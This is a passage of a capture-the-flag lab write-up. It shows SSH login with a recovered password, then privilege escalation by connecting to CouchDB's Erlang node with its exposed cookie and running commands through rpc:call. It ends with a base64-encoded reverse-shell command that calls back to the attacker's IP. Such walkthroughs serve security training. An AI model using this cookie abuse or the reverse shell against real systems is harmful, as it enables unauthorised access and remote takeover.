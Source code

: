 The user stored their password in database passwords and admin was warning them. Let's use knows password for SSH service.

I successfully login with credential `homer:0B4jyA0xtytZi7esBNGp`

```
┌──(Hades㉿10.10.14.6)-[1.6:45.9]~
└─$ sshpass -p 0B4jyA0xtytZi7esBNGp ssh homer@10.10.10.70 -p 65535
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Tue Apr 10 12:57:08 2018 from 10.10.14.5
homer@canape:~$ id
uid=1000(homer) gid=1000(homer) groups=1000(homer)
```

### Erlang CouchDB Local PrivEscal

Checking running service, I saw the command line `-setcookie monster`

```
www-data@canape:/home$ ps aux | grep couchdb                    
root        639  0.0  0.0   4240   644 ?        Ss   Apr13   0:00 runsv couchdb
root        641  0.0  0.0   4384   676 ?        S    Apr13   0:00 svlogd -tt /var/log/couchdb
homer       642  0.4  3.5 649344 34920 ?        Sl   Apr13   1:11 /home/homer/bin/../erts-7.3/bin/beam -K true -A 16 -Bd -- -root /home/homer/bin/.. -progname couchdb -- -home /home/homer -- -boot /home/homer/bin/../releases/2.0.0/couchdb -name couchdb@localhost -setcookie monster -kernel error_logger silent -sasl sasl_error_logger false -noshell -noinput -config /home/homer/bin/../releases/2.0.0/sys.config
www-data   1587  0.0  0.1  11284  1020 pts/0    S+   01:37   0:00 grep couchdb
```

Using cookie `monster` and go to Erlang

```
www-data@canape:/home$ HOME=/ erl -sname 0xdf -setcookie monster
Eshell V7.3  (abort with ^G)
(0xdf@canape)1> os:cmd("id").
"uid=33(www-data) gid=33(www-data) groups=33(www-data)\n"
```

Using `rpc module` of Erlang and call to CouchDB

```
(0xdf@canape)2> rpc:call('couchdb@localhost', os, cmd, [whoami]).
"homer\n"
```

Create homer shell

```
(0xdf@canape)3> rpc:call('couchdb@localhost', os, cmd, ["echo -n c2ggLWkgPiYgL2Rldi90Y3AvMTAuMTAuMTQuNi80NDMgMD4mMQ== | base64 -d | bash"]).
```

At listener, I have reverse shell
